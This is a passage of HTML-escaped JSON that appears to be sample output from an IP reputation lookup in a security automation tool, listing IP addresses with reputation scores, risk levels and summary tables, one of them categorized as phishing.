&quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;40.113.110.67&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;19&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;185.183.33.217&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;185.183.33.217&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3115786713,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;185.183.33.217&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.68.88&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 15,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.68.88&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 910378072,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 15,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.67.68.88&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;15&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;20.66.84.207&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 34,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;20.66.84.207&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 339891407,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 34,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;20.66.84.207&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;34&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;40.99.16.226&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;40.99.16.226&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 677581026,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;40.99.16.226&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;104.21.20.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 10,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;104.21.20.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1746212031,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 10,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_mask&quot;: 128,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;domain&quot;: &quot;104.21.20.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;domain_age&quot;: &quot;-1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_count&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;current_release_date&quot;: 1697959542,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;first_release_date&quot;: 1678413936,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;last_release_date&quot;: 1678413936,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_category&quot;: &quot;Phishing&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;104.21.20.191&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;10&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;Phishing&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;100.64.0.6&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 100,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;100.64.0.6&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1681915910,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 100,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;100.64.0.6&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;100&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;5&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.192.47.10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.192.47.10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 398470922,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;23.192.47.10&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;204.79.197.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 81,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;204.79.197.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3427780079,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 81,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;204.79.197.239&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;81&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;5&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;65.9.42.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;65.9.42.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1091119658,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; 